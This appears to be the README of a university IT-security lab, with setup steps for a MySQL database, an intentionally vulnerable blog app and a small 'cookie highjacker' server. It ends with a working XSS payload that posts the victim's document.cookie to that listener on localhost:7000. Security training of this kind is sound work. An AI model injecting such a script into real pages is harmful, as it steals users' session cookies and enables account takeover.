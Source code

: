 # hse-ss22-itsec-lab-1

## Setup

### Database
Run ````docker-compose up```` to start the MySQL Database. On startup it will be populated with the schema.sql and data.sql scripts.

### Application
The Actual Application which runs the Blog can be started with 
* ````npm run dev```` which will apply code changes automatically.
* ````npm start```` which will not apply any code changes.

### Cookie Highjacker
The Cookie Highjacker is a simple implementation of an express server which only accepts the root route and prints the highjacked cookie to the console.

Script to sniff the cookie.
````
<script>
    alert('Smells like XSS');
    fetch("http://localhost:7000/", {
        method: "POST", headers: {"Content-Type": "application/json"}, body: JSON.stringify({cookie: document.cookie})
    });
</script>
````

